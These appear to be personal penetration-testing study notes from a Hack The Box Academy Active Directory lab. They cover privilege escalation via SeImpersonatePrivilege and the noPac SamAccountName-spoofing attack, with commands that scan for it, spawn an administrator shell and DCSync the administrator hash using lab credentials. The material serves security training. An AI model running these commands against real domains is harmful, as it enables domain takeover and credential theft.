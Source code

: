 Enumerating Rights on System using xp_cmdshell
![[Pasted image 20230103183620.png]]
- With SeImpersonatePrivilege we could use JuicyPotato, PrintSpoofer, or RoguePotato to escalate to SYSTEM level privileges, depending on the target host, and use this access to continue toward our goal.

---

<h2>Bleeding Edge Vulnerabilities</h2>

NoPac (SamAccountName Spoofing)
A great example of an emerging threat is the Sam_The_Admin vulnerability, also called noPac
or referred to as SamAccountName Spoofing released at the end of 2021. This vulnerability
encompasses two CVEs 2021-42278 and 2021-42287, allowing for intra-domain privilege
escalation from any standard domain user to Domain Admin level access in one single
command.
- Takes advantage of being able to change the SamAccountName of a computer account to that of a Domain Controller
- By default, authenticated users can add up to ten computers to a domain.
- Add a computer change the name to that of a Domain Controller
- Request a Kerberos ticket causing the service to issue a ticket under the DC's name

Tool to perform the attack:
Ridter/noPac: Exploiting CVE-2021-42278 and CVE-2021-42287 to impersonate DA from standard domain user (github.com)

Pre-requisites:
![[Pasted image 20230103183818.png]]

1. Scan for NoPac to see if the network is vulnerable
```
TeneBrae93@htb[/htb]$ sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
```
- "Current ms-DS-MachineAccountQuota = 10" -- this means it's vulnerable

2. Run NoPac & Getting a Shell
```
TeneBrae93@htb[/htb]$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```
- Semi-interactive shell with smbexec.py
- Need to use exact paths instead of navigating the directory structure using cd

3. Confirming the Location of Saved Tickets
![[Pasted image 20230103184032.png]]

4. Using NoPac to DCSync the Built-in Administrator Account
```
TeneBrae93@htb[/htb]$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
```

